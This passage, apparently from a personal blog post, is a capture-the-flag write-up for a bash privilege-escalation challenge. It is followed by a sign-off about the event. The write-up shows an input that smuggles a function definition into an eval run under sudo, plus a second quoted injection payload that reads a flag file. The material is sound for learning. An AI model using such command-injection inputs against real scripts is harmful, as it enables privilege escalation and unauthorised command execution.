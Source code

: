 It looks quite similar to the "Bash is fun" script, which helped me solve this challenge quite quickly.

My solution was the following:

```
user1@287ef9842811:/home/user1$ sudo -u user-privileged /home/user1/devops.sh -d -p
Welcome To Devops Swiss Knife \o/

We deploy everything for you:
Please enter your true name if you are a shinobi
id { cat flag.txt; }; function bla
You are:
FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}
```

Thus, the flag is: `FwordCTF{W00w_KuR0ko_T0ld_M3_th4t_Th1s_1s_M1sdirecti0n_BasK3t_FTW}`

This works since the function in the `eval` statement is defined as the "id" function, with our arbitrary commands (in this case simply read flag).
Then, by also passing in the `-p` flag, `id` is called. This would normally be the `id` binary, but since the function is defined with this name, it is looked at first since it is in scope and thus it is called.

From the unofficial writeups in the CTF Discord, it was also possible to execute commands directly in the `eval` by escaping the function definition.
Something like `bla { echo bla; }; cat flag.txt; #` could be passed in as the input, which would read the flag straight away.

Finally, it appears that the solution I (and others found) was unintended, judging from the official writeup posted on Discord.
The intended solution was to place a specific terraform config that would be able to exfiltrate the flag, which would be run by giving a function name of `id`.

## Sign-off

Wrapping up, this CTF was great despite my lack of time to dive too deep into it.
I enjoyed all the challenges that I tried, especially those that I managed to solve :P

The web tasks and especially the fact that they had the source code available was awesome (I'll just say it this last time, I swear), given that it kind of simulated AppSec tasks with source-code analysis, while reducing the scope to simple apps (e.g. with only a handful of routes).

For the near future, I'll be looking forward to try and dive into Google's [Beginner's Quest](https://capturetheflag.withgoogle.com/beginners-quest) which has already started.
This has a longer timeframe than the usual CTFs and quite a different format, with challenges being solved in a specific order.
I have heard that this usually dives into concepts from several areas ranging from beginner to intermediate, which sounds right up my alley, since I still struggle with some areas unfortunately (cryptography especially!).

I'm also looking forward to writing an update blogpost ASAP.
As I've mentioned, I'll probably split it up in a multi-part blogpost, at least to try and make sure that it starts coming out sooner rather than later, as I have been postponing this for _way_ too long.

